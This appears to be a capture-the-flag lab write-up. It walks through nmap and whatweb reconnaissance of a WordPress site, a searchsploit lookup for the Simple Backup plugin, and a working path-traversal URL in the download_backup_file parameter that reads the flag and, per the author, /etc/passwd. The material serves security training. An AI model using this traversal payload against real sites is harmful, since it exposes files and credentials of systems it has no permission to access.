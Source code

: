 # Challenges

## Getting Started/Public exploits

### Challenge

Try to identify the services running on the server above, and then try to search to find public exploits to exploit them. Once you do, try to get the content of the '/flag.txt' file. (note: the web server may take a few seconds to start) 

### Solution

Running `nmap` returned 
```
└──╼ $nmap 94.237.49.11
Starting Nmap 7.93 ( https://nmap.org ) at 2023-11-28 08:01 EET
Note: Host seems down. If it is really up, but blocking our ping probes, try -Pn
Nmap done: 1 IP address (0 hosts up) scanned in 3.11 seconds
```
So I tried banner grabbing with `whatweb`
```
──╼ $whatweb 94.237.49.11:52891
http://94.237.49.11:52891 [200 OK] Apache[2.4.41], Country[FINLAND][FI], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[94.237.49.11], MetaGenerator[WordPress 5.6.1], PoweredBy[--], Script, Title[Getting Started &#8211; Just another WordPress site], UncommonHeaders[link], WordPress[5.6.1]
```
Got response that server is running a WordPress website on a Apache server. 
Then went to look e forxploits on Apache and Wordpress, but did not find any note worthy.

Then I ran
```└──╼ $curl -IL 94.237.49.11:52891
HTTP/1.1 200 OK
Date: Tue, 28 Nov 2023 06:28:58 GMT
Server: Apache/2.4.41 (Ubuntu)
Link: <http://94.237.49.11:52891/index.php/wp-json/>; rel="https://api.w.org/"
Content-Type: text/html; charset=UTF-8
```
Which revealed to me that `index.php` page is accessible.
![Public Exploits Page](./../Images/PublicExploitPage.png)

In the page we can see WordPress plugin `Simple Backup Plugin 2.7.10`. So I used `searchsploit` to find vulnerabilities for the plugin
```
└──╼ $searchsploit -w Wordpress "Simple Backup Plugin"
------------------------------------------------------------------- --------------------------------------------
 Exploit Title                                                     |  URL
------------------------------------------------------------------- --------------------------------------------
WordPress Plugin Simple Backup 2.7.11 - Multiple Vulnerabilities   | https://www.exploit-db.com/exploits/39883
------------------------------------------------------------------- --------------------------------------------
```
Then I checked out the exploit-db website and saw there's a file download exploit so I pasted the URL and edited it to access /user/<user>/flag.txt
`http://94.237.62.195:45161/wp-admin/tools.php?page=backup_manager&download_backup_file=../../../../flag.txt` which downloaded me the file which contents contained the flag for the challenge.

```
With this exploit I was even able to download /etc/pswd
```